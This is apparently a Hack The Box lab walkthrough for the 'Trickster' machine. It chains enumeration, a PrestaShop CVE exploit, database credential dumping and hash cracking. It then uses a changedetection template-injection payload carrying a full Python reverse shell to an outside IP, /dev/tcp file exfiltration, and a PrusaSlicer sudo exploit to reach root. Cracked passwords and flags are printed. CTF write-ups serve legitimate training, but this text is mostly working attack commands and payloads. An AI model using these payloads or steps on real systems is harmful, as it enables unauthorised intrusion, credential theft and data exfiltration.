5 minutes
HTB: Trickster
Port Scan

┌──(kali㉿kali)-[~/HTB/Trickster]
└─$ nmap -sC -sV -A -T4 10.10.11.34 -o scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-07 16:28 EST
Nmap scan report for 10.10.11.34
Host is up (0.088s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 8c:01:0e:7b:b4:da:b7:2f:bb:2f:d3:a3:8c:a6:6d:87 (ECDSA)
|_ 256 90:c6:f3:d8:3f:96:99:94:69:fe:d3:72:cb:fe:6c:c5 (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://trickster.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: Host: _; OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 80/tcp)
HOP RTT ADDRESS
1 54.63 ms 10.10.14.1
2 171.63 ms 10.10.11.34
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.45 seconds

Initial Port Scan
An initial scan of the target revealed two open ports:
- Port 22 (SSH): Running OpenSSH 8.9p1 Ubuntu
- Port 80 (HTTP): Hosting Apache HTTPD 2.4.52 (Ubuntu)
Upon accessing the HTTP server, we were redirected to trickster.htb.
Domain Setup
To interact with the web application, the domain trickster.htb was mapped in the hosts file. Within the site, navigation to the “Shop” section revealed a secondary domain, shop.trickster.htb, hosted on the PrestaShop CMS platform.

Subdomain and Directory Enumeration
Using ffuf, additional directories were enumerated, including a .git directory, which was cloned to analyze the codebase and potentially uncover sensitive information.

ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://FUZZ.trickster.htb -H "Host: FUZZ.trickster.htb" -mc 200,301,302
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://shop.trickster.htb/FUZZ -mc 200,204,301,302
Found that /.git is accessible:

Git Repository Analysis
The cloned Git repository was examined for sensitive information, such as configuration files, credentials, and historical changes. This analysis aimed to uncover potential exploits or backdoors inadvertently committed to the repository. Use GitDumper to clone the disclosured repo:

Log the last commit with git show:
git show
Found the admin panel is on /admin634ewutrx1jgitlooaj

PrestaShop Vulnerability
The version of Prestashop installed is 8.1.5 and is vulenarable to CVE-2024-34716 , so let’s clone the repository and run the exploit, considering it needs admin email which can be found in the home page of the shop website: admin@trickster.htb.

So run the command with:
python3 exploit.py --url http://shop.trickster.htb --email admin@trickster.htb --local-ip 10.10.15.30 --admin-path admin634ewutrx1jgitlooaj

In config.inc.php:
$ cd /var/www/prestashop/config
$ cat config.inc.php | grep parameters
if (!file_exists(_PS_ROOT_DIR_ . '/app/config/parameters.yml') && !file_exists(_PS_ROOT_DIR_ . '/app/config/parameters.php')) {
Let’s go into /app/config/ and cat parameters.php
$ cd app
$ cd config
$ cat parameters.php

Let’s log in in the database:
$ mysql -u ps_user -p
Enter password: prest@shop_o
 
Go look inside ps_employee table and you will able to find users credentials:
admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C
james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm

Logout from reverse shell and try to crack with hashcat
┌──(kali㉿kali)-[~/HTB/Trickster/CVE-2024-34716]
└─$ cat james_hash
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
┌──(kali㉿kali)-[~/HTB/Trickster/CVE-2024-34716]
└─$ hashcat -m 3200 -a 0 james_hash /usr/share/wordlists/rockyou.txt
.....
$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6y...yunCmm
Time.Started.....: Fri Nov 8 17:00:13 2024 (12 secs)
Time.Estimated...: Fri Nov 8 17:00:25 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 3156 H/s (3.38ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 37056/14344384 (0.26%)
Rejected.........: 0/37056 (0.00%)
Restore.Point....: 37040/14344384 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-16
Candidate.Engine.: Device Generator
Candidates.#1....: alwaysandforever -> Victor
Hardware.Mon.#1..: Util: 76%
james' password is alwaysandforever
Let’s try ssh into james:

userflag:24cd8325f667dad2097e5f8ef8c0df48

From linpeas there is docker network interface, this means containers are running, so we have to find the right port on which it’s running, but we can’t access docker’s data as far as we are not sudo. Let’s test some ports trough:
#!/bin/bash
TARGET_IP=$1
START_PORT=$2
END_PORT=$3
for (( port=$START_PORT; port<=$END_PORT; port++ ))
do
nc -zv -w 1 $TARGET_IP $port &> /dev/null
if [ $? -eq 0 ]; then
echo "Port $port is open"
else
echo "Port $port is closed"
fi
done
Save this script into a file and run chmod +x script.sh and
james@trickster:/tmp$ ./script.sh 172.17.0.2 1 5000
so try to forward this port trough ssh
┌──(kali㉿kali)-[~/HTB/Trickster/CVE-2024-34716]
└─$ ssh -L 5000:172.17.0.2:5000 james@10.10.11.34
james@10.10.11.34's password:
Last login: Fri Nov 8 22:02:00 2024 from 10.10.15.30
james@trickster:~$
On localhost 5000 we have changedetection login panel, in which we can login using same james password:  Version: v0.45.20 and googling about i found this vulnerability XSS: GitHub, let’s try if its vulnerable:
"><img src=x onerror=alert(document.domain)>

Use this payload: cve-2024-32651
python3 cve-2024-32651.py --url http://localhost:5000 --ip 10.10.15.30

Go in Notifications tab using the payload below and click on send test Notification:

gets://10.10.15.30
------------------
{{ self.__init__.__globals__.__builtins__.__import__('os').system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.30",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")\'') }}
Now the exploit will send you the container’s root shell on listening terminal:

from /datastore folder:

nc -l -p 9999 -q 1 > changedetection-backup-20240830194841.zip
-------
cat changedetection-backup-20240830194841.zip > /dev/tcp/10.10.14.71/9999

After transferring the backup zipped file, go inside b4a8b52d-651b-44bc-bbc6-f9e8c6590103 and extract txt.br file with brotli, and inside the extracted txt file i found adam’s credentials.

'database_user' => 'adam' , 'database_password' => 'adam_admin992'
Let’s use them to ssh into machine as adam, and check his permissions.

This user can execute prusaslicer file as SUDO. Googling it i found that is vulnerbale to #CVE-2023–47268, for which you can find exploit here: ExploitDB . A better version PrusaSlicer Exploit, clone this repository on your kali machine and then pass on the HTB machine. Run the exploit trough sudo ./prusaslicer -s /tmp/evil.3mf

And you gain the root shell:

rootflag:e2c080517bfa23fd1710c6e1c5918f83
892 Words
2024-11-12 01:00